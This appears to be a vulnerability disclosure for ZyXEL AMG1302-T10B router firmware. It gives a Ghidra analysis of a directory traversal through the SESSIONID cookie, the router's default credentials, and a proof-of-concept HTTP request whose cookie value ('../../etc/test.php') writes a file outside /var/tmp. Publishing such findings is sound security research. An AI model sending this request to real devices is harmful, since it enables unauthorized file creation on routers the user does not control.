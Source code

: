 ### description: 
A directory traversal vulnerability was discovered in the ZyXEL AMG1302-T10B firmware version 2.00(AAJC.16)C0. The vulnerability is present in the FUN_0040fffc function, which is responsible for processing the SESSIONID parameter. This issue allows an attacker to manipulate the file path, potentially leading to unauthorized file creation or access outside the intended directory structure.
### Firmware
**brand**: zyxel 

**product**: AMG1302-T10B

**version**: 2.00(AAJC.16)C0

The firmware can be downloaded from this [website]([Zyxel CPE Devices [Firmware] - Advanced Downloads Firmwares and other resources – Zyxel Support Campus EMEA](https://support.zyxel.eu/hc/en-us/articles/4403361365778-Zyxel-CPE-Devices-Firmware-Advanced-Downloads-Firmwares-and-other-resources#h_01J58MYBXYH3897PEM4KWN7ZBW)) and using FirmAE to simulate the router environment.   The command is
```shell
sudo ./run.sh -r zyxel ../FIRMWARE/2.00(AAJC.16)C0.bin
```
The default username is 'admin', password is '1234'.
The result of the simulation is as follows: 
![[web.png]]
### analyze
Using ghidra, we found that there may be a directory traversal vulnerability in the line 47 of the function FUN_0040fffc

![[analyze1.png]]
We discovered that the variable `local_120` is concatenated from the string constant `"/var/tmp/"` and the variable `uVar5`. We then checked whether the value of `uVar5` is controllable. By analyzing the data flow of `uVar5`, we found that it ultimately originates from `puVar1`.
![[analyze2.png]]
Through analysis of the function `FUN_0040f704` using Ghidra, we determined that the function's purpose is to parse and reassemble formatted key-value pair strings, returning a dynamically allocated array (`local_3c`). Each element of the array points to a structure containing a key (Key) and a value (Value). Combining this with the previous findings, we can infer that the code in function `FUN_0040fffc` is intended to retrieve the value of the `"SESSIONID"` field from the request and create a file. However, there is no validation of the input string, which poses a risk of a directory traversal vulnerability.

The details of the function as follows:

* **Address**: 00410db0   
* **Function**: FUN_0040fffc 
* **Parameter**: SESSIONID
### poc
Burp Suite change the packet as follows
```burpsuite
GET /cgi-bin/pages/maintenance/userAccount/userAccount.html HTTP/1.1

Host: 192.168.1.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2

Accept-Encoding: gzip, deflate

Connection: close

Referer: http://192.168.1.1/cgi-bin/main.html

Cookie: SESSIONID=../../etc/test.php

Upgrade-Insecure-Requests: 1

```
The result of the POC is as follows. You can create the file `test.php` in any location outside of `/var/tmp/`.
![[attack.png]]
